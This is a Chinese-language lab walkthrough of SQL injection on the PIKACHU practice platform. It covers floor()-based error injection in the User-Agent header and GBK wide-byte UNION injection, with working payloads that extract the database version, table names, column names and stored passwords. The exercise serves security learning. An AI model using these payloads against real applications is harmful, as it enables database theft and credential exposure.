 >**由于之前已经使用过基于exp()函数和updatexml()函数的报错注入，为达到学习的目的，这里我们用floor()函数构造payload进行注入。**

1.先在http头部中的user-agent中插入单引号`'`，发现报错，说明数据库对user-agent中的内容进行了拼接，存在注入点

![avjnlavnlavavljnajvn](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/avjnlavnlavavljnajvn)

2.报错返回数据库版本`' or (select 2 from (select count(*), concat(version(), floor(rand(0) * 2))x from information_schema.tables group by x)a) or '`

![sbdsbfbdndfndfhsh](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/sbdsbfbdndfndfhsh)

3.爆库`' or (select 2 from (select count(*),concat((select database()),'-',floor(rand(0)*2))x from information_schema.tables group by x)a) or '`

![dbjdjvjabkjvbakjbvkabdvk](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/dbjdjvjabkjvbakjbvkabdvk)

4.爆表`' or (select 2 from (select count(*),concat((select table_name from information_schema.tables where table_schema='pikachu' limit 3,1),'-',floor(rand(0)*2))x from information_schema.tables group by x)a) or '`

![sbajldvnjldsnbjnfkj](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/sbajldvnjldsnbjnfkj)

5.爆列名`' or (select 2 from (select count(*),concat((select column_name from information_schema.columns where table_schema='pikachu' and table_name='users' limit 2,1),'-',floor(rand(0)*2))x from information_schema.tables group by x)a) or '`

![sjbvskjbvkjsdbvkjsk](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/sjbvskjbvkjsdbvkjsk)

6.爆password字段`' or (select 2 from (select count(*),concat((select password from pikachu.users limit 0,1),'-',floor(rand(0)*2))x from information_schema.tables group by x)a) or '`

![adbvskjhdvkjsdvjsdbs](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/adbvskjhdvkjsdvjsdbs)

### 九、宽字节注入

>**原理：当我们输入有单引号时被转义为`\'`，无法构造 SQL 语句的时候，可以尝试宽字节注入。前提：数据库编码格式为’gbk’/‘gb2312’等。GBK编码中，反斜杠的编码是 “%5c”，而 “%df%5c” 是繁体字 “連”。**

>**在我们使用的PIKACHU漏洞练习平台中，宽字节注入实验默认关闭了MySQL的错误描述显示,报错注入不太方便，所以这里我就直接用union进行注入啦~**

1.爆库`1234 %df' union select 1,database() #`

![avjbakjvvsljnjskdnvk](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/avjbakjvvsljnjskdnvk)

2.在构造爆表的payload时发现`1234 %df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='pikachu') #`注入之后总是无显示，后来发现是payload里边的两个单引号依旧被转义没有跳出，所以这里我们换一个没有单引号的payload。构造新的payload`1234 %df' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()) #`成功

![lvkjsvdksdhvjksdvk](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/lvkjsvdksdhvjksdvk)

3.在构造爆列名的payload时无可避免需要用两个单引号闭合表名，所以我们用十六进制编码的方法对表名进行转义，如`select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x27757365727327`。可是这里注入仍不成功，经过一番查找，发现问题出在最后的十六进制转化，转化的是 'users' ,但是有一个错误就是一个字符串转化成十六进制时就不需要再用单引号进行闭合解释，所以去掉前后两个单引号的十六进制0x27,最后应该是0x7573657273。新的payload成功`1234 %df' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273)#`
